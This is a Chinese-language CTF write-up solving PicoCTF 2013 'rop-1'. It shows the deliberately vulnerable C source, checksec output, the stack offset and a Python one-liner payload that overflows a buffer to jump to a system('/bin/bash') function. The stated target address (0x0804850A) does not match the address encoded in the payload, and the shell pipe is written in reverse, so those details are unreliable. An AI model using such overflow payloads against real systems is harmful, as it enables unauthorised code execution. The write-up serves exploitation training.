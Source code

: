 ```yaml
---
title: 2013PicoCTF rop-1
date: 2019-04-18 23:38:22
categories: Pwn
---
```

# Write-Up
```

int not_called() {
	return system("/bin/bash");
}

void vulnerable_function() {
	char buf[128];
	read(STDIN_FILENO, buf, 256);
}

void be_nice_to_people() {
	// /bin/sh is usually symlinked to bash, which usually drops privs. Make
	// sure we don't drop privs if we exec bash, (ie if we call system()).
	gid_t gid = getegid();
	setresgid(gid, gid, gid);
}

int main(int argc, char** argv) {
        be_nice_to_people();
	vulnerable_function();
	write(STDOUT_FILENO, "Hello, World\n", 13);
}
```
可以看到main中会先弄好了id，然后调用```vulnerable_function()```这个函数

而在函数中看到，是一个普通的栈溢出，再查看程序保护

>➜  rop1 checksec rop1 
[*] '/home/mjr/Desktop/pico/rop1/rop1'  
    Arch:     i386-32-little  
    RELRO:    Partial RELRO  
    Stack:    No canary found  
    NX:       NX enabled  
    PIE:      No PIE (0x8048000)

几乎没有什么保护，直接干就是了，把```not_called()```的地址修改到```vulnerable_function()```函数的```saved-eip```中

## not_called()地址
由于不开启PIE保护，函数代码段地址是固定的，在IDA中找到函数地址
>0x0804850A

## 覆盖长度
利用gdb调试一次，查看相应的偏移
![stack](stack.png)

可以计算相应的长度
>0xffffd07c-0xffffcff0=0x8c(140)

所以对应的payload应该是
>'a'*140+0x0804850A


正常payload应该如下

>./rop1 | python2 -c "print 'a'*0x8c+'\xa4\x84\x04\x08'"

但是运行起来却不能getshell

根据给的hint，这个shell会在标准输入之后关闭

~~我也不知道是怎么回事啊！~~  输入如下

>./rop1 | python2 -c "print 'a'*0x8c+'\xa4\x84\x04\x08'";sh

getshell